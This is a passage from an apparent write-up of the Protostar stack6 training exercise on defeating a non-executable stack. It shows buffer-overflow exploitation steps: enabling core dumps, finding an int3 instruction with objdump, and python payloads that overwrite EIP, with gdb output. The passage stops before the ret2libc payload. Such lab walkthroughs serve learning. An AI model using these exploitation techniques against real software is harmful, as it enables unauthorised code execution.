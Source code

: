 So now the game is somewhat harder, we need to defeat the NX-stack. There are two ways to do this, and I did both just to check that I could. The first way is by returning to a libc function of choice, and the broader category is known as ret2libc attacks. When this is not possible, you can result to crafting a Return-Oriented Programming (ROP) payload, but this is considerably harder and more time consuming.

Both of these techniques assume that ASLR [5] is not enabled (and from now on we will assume it to be true for the rest of the article).

# Exploitation
## Setup 

To make things easier for us, we need to do two things:
* enable coredumps -> `$ ulimit -c unlimited`
* enable coredumps for SUID binaries -> `# echo 2 >/proc/sys/fs/suid_dumpable`
* find a debugging instruction -> `0xCC`

These will allow us to inspect the process as it crashes or hits a breakpoint, allowing us to verify our logic step by step. Debugger interrupt is `int 3` or `0xCC`, and we can look for one using `objdump`:

```
user@protostar:/opt/protostar/bin$ objdump -s ./stack6 | grep -e cc
8048248 1a000000 cc850408 04000000 11001000  ................
                 ^- here
```

Bingo, we were lucky found a break point on `0x0804824c`. Conveniently, this is in the `.text` section of the binary, so we should be able to call it without issues. 

Now we need to make our binary crash, and by trying a few different offsets we find that `80` bytes of padding are enough for the next `4` bytes to overwrite EIP:

```bash
user@protostar:/opt/protostar/bin$ python -c 'print "A" * 80 + "BBBB"' | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB
Segmentation fault (core dumped)
root@protostar:/opt/protostar/bin# gdb -q ./stack6 /tmp/core.11.stack6.1562 
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
```

Testing our breakpoint: 
```bash
user@protostar:/opt/protostar/bin$ python -c 'print "A" * 80 + "\x4c\x82\x04\x08"' | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALAAAAAAAAAAAAL�
Trace/breakpoint trap (core dumped)
root@protostar:/opt/protostar/bin# gdb -q ./stack6 /tmp/core.5.stack6.1566 
Program terminated with signal 5, Trace/breakpoint trap.
#0  0x0804824d in ?? ()
(gdb) x/i $eip-1
0x804824c:	int3 
```

